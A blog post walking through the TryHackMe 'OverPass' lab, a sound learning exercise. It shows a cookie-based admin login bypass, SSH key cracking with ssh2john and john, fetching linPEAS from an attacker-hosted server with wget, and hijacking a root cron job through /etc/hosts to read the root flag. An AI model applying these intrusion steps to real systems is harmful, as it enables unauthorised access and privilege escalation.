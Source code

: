 ```yaml
---
layout: post
title: "OverPass"
categories: ["Hands-on", "TryHackMe"]
tags: "TryHackMe"
---
```


# OverPass
*What happens when some broke CompSci students make a password manager?*

tool used: **Nmap**, **Gobuster**, **Burp**, **ssh2John**, **john**, **linPEAS**

After running Nmap scan I opened the browser searching the machine's IP address. This lands me up to a homepage website and found two directory: **About me** and **download** page. I checked the source of the homepage but i found nothing interesting.

### Gobuster

Since nothing really stuck out i decided to use gobuster to check if there are other directories. I used common wordlist from dirb as the wordlist. After running gobuster i find the **/admin** directory, it was an admin login page i tried the default admin username and password but it did not work


```bash
#Gobuster Command:

gobuster dir -u <url> -w <wordlist>

```

### Burp Intruder
I will be attempting to use Burp intruder to automate the brute forcing of the admin login. I have never used Burp Intruder so this will be a new experience for me.

Reading through the login.js i see that it reads the status of the cookie. If the cookie shows *incorrect credentials* it wont login but if the cookie is set to be Session Token it will allow me to login. Meaning that Bruteforcing might not be needed to bypass the login. Because of the *IF statement* if i changed the cookie to anything but 'incorrect credentials' i will be able to bypass the login.

![Login JaveScript](/images/loginOverpass.png)

 I went back to the browser opened the inspect so i can use the console there to set the cookie as 'AtomicScript' and After refreshing the page i get a private key that i believe needs to be decrypted.

 ```js
 //javascript setting cookie:

 Cookies.set("SessionToken",'AtomicScript')

 ```

### John

After refreshing the page I landed into a page that had a private RSA key of someone named James. In order for me to crack the private key I need to do the following:
1. use ssh2john to get the hash of the private key
2. use John to crack the hash with a rockyou wordlist  

I copied the Private RSA key into a file in my directory so i can use ssh2john with the following command:
'''

'''

```bash
# Used ssh2John to get the hash

python ssh2john.py id_rsa > id_rsa.hash

```

```bash
# Used John to get the password from the hash

sudo john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt

```
>[Using JOHN & SSH2JOHN to crack a id_rsa private key](https://m0053sec.wordpress.com/2020/02/08/using-john-ssh2john-to-crack-a-id_rsa-private-key/)


### SSH
with that we found the password! I went back to the admin page and tried it with the username James but it say incorrect credential. I was hoping it would work. I used the below command to ssh with the id_rsa I found and passed the password as the phrase.

```bash
# SSH as james

ssh -i id_rsa james@[ip-address]

```

## Privilege escalation
Now that we have logged in as a normal I need to escalate my privilege to fully complete the challenge. I found two files one containing the first key and the second contains a to do list, it mentions that a password is in the password manager. I dont have access to tryhackme home directory sadly.

### [LinPeas](https://blog.cyberethical.me/linpeas)

linPEAS performs Privilege escalation in the victim machine, and I wanted to try it to escalate my Privilege and learn on how the script work.

1. Downloaded the script file in the directory I was working on
2. Used python to host a web server
3. Used the Terminal with the remote connection to the machine to download the script in the **TMP** Directory. Any directory wont work it will show as bad permission.
4. Made sure that the script has the permission to execute and ran it.



#### Downloading the script file only

```bash
# Downloading the linpeas script file

wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -O linpeas.sh

```

#### Hosting with python

```bash
# Hosting the http server using python3

python3 -m http.server

```


#### downloading the script.
```bash
# Downloading the linpeas script from my hosted server

wget http://[myip]:[port]/linpeas.sh

```

I used a [guide](https://0xnirvana.medium.com/tryhackme-overpass-90abe32320a1) to understand what is needed to look for and what is needed done to gain access to the root or to find the flag.

#### CronTab

The trick was in the cron tab. The Crontab curls the buildscript.sh from the overpass.thm and sends the result to the bash as the root. From my understanding if we get access to editing the buildscript and the crontab runs it as root we would technically have access to anything as root.

I used the command cat /etc/hosts to find out about the overpass.thm. It was there with the local host now if i modified the ip address associated with the overpass.thm and changed it to be my own ip address, then the machine would think Im overpass.thm.

```bash
# Find out who is overpass.thm

cat /etc/hosts

```

The only problem now is that it would be looking for the buildscript.sh in my own machine and it wont find it. I created the script with the command *cat /root/root.txt > /tmp/flag*. Now i went back to the ssh connection and created the flag file since that does not exists. I went back and hosted the http server in the parent directory of the download/src and waited for the cron to do its job. After getting the *200* status I checked the flag file and it worked!
